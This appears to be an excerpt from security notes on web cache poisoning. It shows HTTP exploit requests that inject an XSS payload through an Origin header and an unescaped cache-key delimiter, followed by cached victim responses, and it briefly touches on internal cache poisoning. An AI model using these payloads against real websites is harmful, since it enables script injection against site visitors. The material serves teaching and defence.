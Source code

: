 EX : 
The following example uses double-underscores to delimit different components in the cache key and does not escape them.



Expolit Request : 
```http
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__
```
Expolit Response : 
```http
HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```

Victim Request :
```http
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1
```
Victim Response : 
```http
HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

## Internal cache poisoning





- if the website unsafely uses unkeyed headers to import files, this can potentially be exploited by an attacker to import a malicious file instead. However, this applies to more than just JavaScript files.
- Many websites use JavaScript to fetch and process additional data from the back-end.
- If a script handles data from the server in an unsafe way, this can potentially lead to all kinds of DOM-based vulnerabilities.

